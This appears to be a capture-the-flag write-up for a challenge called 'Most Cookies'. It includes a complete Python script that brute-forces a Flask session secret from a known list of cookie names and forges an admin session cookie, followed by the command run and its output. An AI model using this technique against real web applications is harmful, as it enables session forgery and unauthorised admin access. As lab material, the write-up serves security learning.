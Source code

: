 #                               Most Cookies

## Description
**Alright, enough of using my own encryption. Flask session cookies should be plenty secure**

## The How to 
**We recevied the server source code. The most important part for us is the server list of secret key.**

```Python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", 
"shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", 
"biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", 
"wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", 
"lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```


Cookies! Yum. Now again, for the sake of transparency. After some googling around I came by this [article](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce).
</br>
The source code used there is exactly what is needed to solve this challenge. And unlike the author (Luke Paris, great job) we don't have to scrape for the secret keys:

```python
import flask
import hashlib

from sys import argv
from flask.json.tag import TaggedJSONSerializer
from itsdangerous import URLSafeTimedSerializer, TimestampSigner, BadSignature

cookie = argv[1]

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", 
"shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", 
"biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", 
"wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", 
"lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

real_secret = ''

for secret in cookie_names:
	try:
		serializer = URLSafeTimedSerializer(
   			secret_key=secret,	
   			salt='cookie-session',
   			serializer=TaggedJSONSerializer(),
   			signer=TimestampSigner,
   			signer_kwargs={
   				'key_derivation' : 'hmac',
   				'digest_method' : hashlib.sha1
   		}).loads(cookie)
	except BadSignature:
		continue

	print(f'Secret key: {secret}')
	real_secret = secret

session = {'very_auth' : 'admin'}

print(URLSafeTimedSerializer(
	secret_key=real_secret,
	salt='cookie-session',
	serializer=TaggedJSONSerializer(),
	signer=TimestampSigner,
	signer_kwargs={
		'key_derivation' : 'hmac',
		'digest_method' : hashlib.sha1
	}
).dumps(session))

```
Then I just got the cookie that was set by the server and ran like this:
```bash
python3 solve.py eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGDN9Q.OQfLsrc3CI1o1FnNcfKIritiSiU
Secret key: chocolate chip
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YGDOnQ.7XmRCoG9kNKi2lcgJ11-PXB2SBo
```
Change your cookie value or send a request through python:
</br>

![flag](./flag.png)

</br>